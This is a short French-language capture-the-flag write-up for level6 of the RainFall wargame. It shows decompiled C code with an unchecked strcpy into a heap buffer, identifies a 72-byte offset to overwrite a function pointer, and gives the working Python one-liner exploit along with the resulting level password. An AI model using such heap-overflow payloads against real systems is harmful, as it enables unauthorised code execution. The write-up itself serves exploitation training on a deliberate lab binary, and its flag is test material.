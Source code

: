 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=bf99b17b-f29d-4c51-9cac-5055972d80ea#Ghidra=154

```c
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5) {
  puts("Nope");
  return;
}

void main(int argc,char **argv) {
  char *__dest;
  int**ppcVar1;
 
  __dest = (char *)malloc(64); // 0x40
  ppcVar1 = malloc(4);
  *ppcVar1 = m;
  strcpy(__dest, argv[1]);
  (**ppcVar1)();
  return;
}
```

# Explication

A partir de la position 72 on segfault. Donc le padding nécessaire est 72 caractères puis on ajoute l’adresse de la fonction `n`.

```
(gdb) p n
$5 = 0x8048454 <n>
```

On obtient :

```
level6@RainFall:~$ ./level6 $(python -c 'print("a" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
